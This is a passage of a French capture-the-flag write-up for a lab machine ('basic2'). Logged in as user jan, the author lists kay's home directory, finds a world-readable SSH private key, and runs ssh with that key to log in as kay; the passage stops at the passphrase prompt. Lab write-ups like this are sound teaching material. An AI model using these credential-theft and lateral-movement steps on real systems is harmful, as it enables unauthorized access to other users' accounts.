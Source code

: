 En faisant un ls -la dans le home de jan, rien d'intéressant n'apparait.

> ls -la
>

```
jan@basic2:~$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 root jan    47 Apr 23  2018 .lesshst
```

Cependant il y avait un autre utilisateur <u>kay</u>, allons voir son home de plus près.

En faisant à nouveau un ls -la dans le home de kay on peut y trouver un dossier .ssh.

```
jan@basic2:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
```

En regardant à l'intérieur on peut y retrouver sa clé privé ainsi que sa clé publique.

```
jan@basic2:/home/kay$ ls -la .ssh/
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

Il nous est donc possible de nous connecter avec si l'on utilise la clé privé avec l'utilisateur jan.

> ssh -i /home/kay/.ssh/id_rsa kay@10.10.47.37
>

```
jan@basic2:/home/kay$ ssh -i /home/kay/.ssh/id_rsa kay@10.10.47.37
Could not create directory '/home/jan/.ssh'.
The authenticity of host '10.10.47.37 (10.10.47.37)' can't be established.
ECDSA key fingerprint is SHA256:+Fk53V/LB+2pn4OPL7GN/DuVHVvO0lT9N4W5ifchySQ.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/home/jan/.ssh/known_hosts).
Enter passphrase for key '/home/kay/.ssh/id_rsa': 

```
